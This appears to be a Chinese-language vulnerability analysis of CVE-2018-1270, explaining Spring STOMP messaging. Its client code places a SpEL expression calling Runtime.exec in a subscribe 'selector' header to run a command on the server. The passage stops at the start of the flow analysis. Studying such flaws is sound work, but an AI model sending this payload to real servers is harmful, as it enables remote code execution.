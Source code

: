 //ack为可选项

### SEND

SEND则是向代理发送消息,SEND必须包含路径(发送消息的目的地),body(消息内容),以及content-type(消息格式)

```
SEND
destination:/queue/a
content-type:text/plain

hello queue a
^@
```

在Broker内部会将接收到的body按照content-type进行转换,让所有的client都可以识别,这也是Broker的作用之一

![image-20210907202007469]([SpEL]CVE-2018-1270/image-20210907202007469.png)

来看一下app.js的这段代码

```java
function connect() {
    var header = {"selector":"T(java.lang.Runtime).getRuntime().exec('calc.exe')"}; //自己定义一个hander信息
    var socket = new SockJS('/gs-guide-websocket');      //SockJS与/gs-guide-websocket建立连接
    stompClient = Stomp.over(socket);					//通过WebSocket实现Stomp
    
    
    //利用STOMP的subscribe()让客户端进行订阅。这个方法有两个必要的参数：目的地（destination），回调函数（callback），还有一个可选的参数headers。其中destination是String类型，对应目的地，回调函数是伴随着一个参数的function类型
        stompClient.connect({}, function (frame) {
        setConnected(true);
        console.log('Connected: ' + frame);
        stompClient.subscribe('/topic/greetings', function (greeting) {
            showGreeting(JSON.parse(greeting.body).content);
        },header);
    });
}
	//利用send()发送数据
function sendName() {
    stompClient.send("/app/hello", {}, JSON.stringify({'name': $("#name").val()}));
}
```

 服务端处理客户端SEND的STOMP消息，主要用的是 @MessageMapping 和 @SubscribeMapping (两者有些区别不过这里就不讨论了)

这里可以看到在GreetingController类中可以看到`@MessageMapping("/hello")`  (这里的/app可以省略)

![image-20210907203129721]([SpEL]CVE-2018-1270/image-20210907203129721.png)

函数return 返回的数据会返回到`@SentTo`中设置的路径,这里的`/topic/greetings`就是我们之前`subscribe`的路径

# 流程分析
